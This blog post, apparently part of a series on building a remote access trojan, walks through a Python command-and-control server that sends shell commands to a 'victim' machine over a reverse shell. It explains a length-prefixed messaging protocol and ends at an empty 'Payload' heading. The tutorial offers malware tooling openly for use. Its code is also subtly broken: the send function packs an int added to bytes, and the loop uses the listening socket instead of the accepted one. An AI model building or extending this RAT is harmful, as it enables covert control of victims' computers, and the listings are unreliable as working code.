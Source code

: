 ```yaml
---
layout: single
title: (2) RAT Dev - Creating a simple Server and Payload
categories: ratdev
---
```

In the last blog post I talked about the general plans and goals of this RAT, in this post I'll be creating a very simple C2 Server and the Payload.

For now I want to create the structure for a Reverse Shell, this will allow me to execute shell commands on the victims computer. 

Let's get started!

## The Server

To begin with I'll start by creating the server, the server will be coded in Python, which in my opinion is one of the best languages for something like this.

I'm creating a Reverse shell, so the structure of the server will look like this:

- Create a new socket, bind it and listen for new connections
- Accept the first connection
- Ask for an input from the server host, this will be the shell command
- Send the command to the victim
- (Victim runs the command and returns the output)
- Receive the output, then print it to the screen
- Ask for a new input

```python
import socket
import struct

# Create new socket object, i'll be using TCP for communication
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Bind the socket to my local address on port 4444
sock.bind(('', 4444))
# Listen for connections
sock.listen()

# Accept the first connection
c_sock, _ = sock.accept()
```

Perfect, the code creates the server, binds it to my IP address and listens for new connections. Then accepts the first connection, I won't be accepting multiple connections at the same time (for now).

Before we send any commands I want to talk about the messaging protocol I'm going to use, for those who don't know, the TCP Protocol sends messages in streams of data.

The typical code for receiving data looks like this:
```python
data = sock.recv(1024)
```

This means that the socket will receive a message of up to 1024 bytes, what if our message is longer than that? Well, we could change it to a higher number, maybe 2048, 4096? I plan for files to be sent, and most files are above 4096 bytes. So this is a problem.

What if we set the byte number to something ridiculous like 10000000? In theory that would work, but because TCP works in streams of data if we tried to send a large number of bytes over multiple networks then the message would be split up into multiple smaller messages. If multiple messages come in at the same time we cant distinguish which bytes correspond to which message.  

A good place to start would be to send the **length of the message**, then the **actual message**. By doing this, the recipient knows exactly how many bytes to expect and can receive them all to form a message. In practice, how do we do that?

Lets say our message is: `hello`
We could send the message `5hello`, and expect the recipient to read the first byte, but this doesn't work for a message that is 10 bytes long. I'm not going to go through the entire process of why this wouldn't work, but believe me, it doesn't.

To fix this problem, I've created a messaging protocol that allows us to send the length of the message, then the actual message.

This is where these two messaging functions come in:

**Receive message**
```python
def recv_msg(sock: socket.socket) -> bytes:

	msg_len = sock.recv(4)
	msg_len = struct.unpack("!I", msg_len)[0]

	f_msg = b""

	while len(f_msg) < msg_len:
		f_msg += sock.recv(msg_len - len(f_msg))

	return f_msg
```

**Send message**
```python
def send_msg(sock: socket.socket, msg: bytes) -> None:

	f_msg = struct.pack("!I", len(msg) + msg)
	sock.sendall(f_msg)
```

### Send message

Let's start with the **send message** function first. It uses the function `struct.pack()` to convert the length of the message into the binary representation of an Integer. 

```python
struct.pack("!I", 5) -> b'\x00\x00\x00\x05'
```

The `I` tells the function to convert it into an integer that will be sent over the network. The output is the binary representation of an integer, with a length of **4** bytes.

The `!` tells the function to convert it into network order (big-endian) which is the standard for communicating bytes on a network.

You can go to the [struct documentation](https://docs.python.org/3/library/struct.html)for more information on this.

Look at what happens when I put a much larger number into this function:

```python
struct.pack("!I", 56457) -> b'\x00\x00\xdc\x89'
```

The output is still **4** bytes! It may look larger than that, but I assure you that's only Python changing the output to be printed into the console.  In the send message function, we get that struct and add it onto the start of the message. The final message for `hello` would be `b'\x00\x00\x00\x05Hello'`.

### Receive message

Now that we have sent that message, how do we receive it accurately?
All we need to do is receive 4 bytes, which tells us the length of the message, then use that to receive the full message.

The receive function:

- Receives the first 4 bytes, telling us the length of the message
- Uses `struct.unpack()` to convert that integer representation back into an actual number.
- Receives the entire message using a while loop

Remember when I talked about how TCP sends data over streams? If the data is large then the original message will be split up into smaller messages, so we cant simply do `sock.recv(msg_len)`. 

Let's say our message is **2000** bytes.
First we try `sock.recv(2000)`, but only receive 567 bytes (this is not a set number, it can vary).
Our current message length is **567** bytes, so we need to receive **1,433** more bytes to complete the message, the while loop continues this process until the length of our final message matches with the expected message length.
Once the expected message length has been achieved, it will break out from the loop and return the message.

### Finishing touches

Now all we need to do is ask for an input (the command), send the command and receive the commands output. Like this:

```python
while True:

	cmd = input("Enter command: ")
	# input() returns a string, so we need to convert cmd into bytes
	send_msg(sock, bytes(cmd, 'utf-8'))

	output = recv_msg(sock)
	# recv_msg() returns bytes, so convert it into a string for better readability
	print(output.decode('utf-8'))
```

The entire server looks like this:

```python
import socket
import struct

print("Run")
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('', 4444))
sock.listen()

c_sock, _ = sock.accept()
print("Got a connection!")

def recv_msg(sock: socket.socket) -> bytes:

	msg_len = sock.recv(4)
	msg_len = struct.unpack("!I", msg_len)[0]

	f_msg = b""

	while len(f_msg) < msg_len:
		f_msg += sock.recv(msg_len - len(f_msg))

	return f_msg

def send_msg(sock: socket.socket, msg: bytes) -> None:

	f_msg = struct.pack("!I", len(msg) + msg)
	sock.sendall(f_msg)

while True:

	cmd = input("Enter command: ")
	send_msg(sock, bytes(cmd, 'utf-8'))

	output = recv_msg(sock)
	print(output)
```

**NOTE**: There is no error handling in this code, if the victim disconnects while we are sending our message the code will stop execution. This can be implemented later though.

## The Payload
